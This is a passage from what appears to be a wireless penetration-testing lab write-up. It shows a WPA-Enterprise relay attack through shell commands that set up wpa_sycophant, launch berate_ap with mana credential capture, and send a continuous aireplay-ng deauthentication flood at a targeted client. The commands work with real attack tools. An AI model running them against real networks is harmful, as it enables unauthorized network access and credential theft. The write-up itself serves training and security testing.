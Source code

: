 ```shell
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=F0:9F:C2:00:00:00
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```

`berate_ap` is similar to `eaphammer`:

```shell
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo wifi-regional-tablets
```

In parallel, I make a deauthentication attack on customers:
```shell
iwconfig wlan0mon channel 44
aireplay-ng -0 0 wlan0mon -a F0:9F:C2:7A:33:28 -c 64:32:A8:A9:DE:55
```

In other parallel, I wait for the client to connect to “berate_ap” and “wpa_sycophant” can reuse the information to connect to the real AP:

```shell
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c wpa_sycophant_example.conf -i wlan3
```

![](Images/Recon21_01.png)
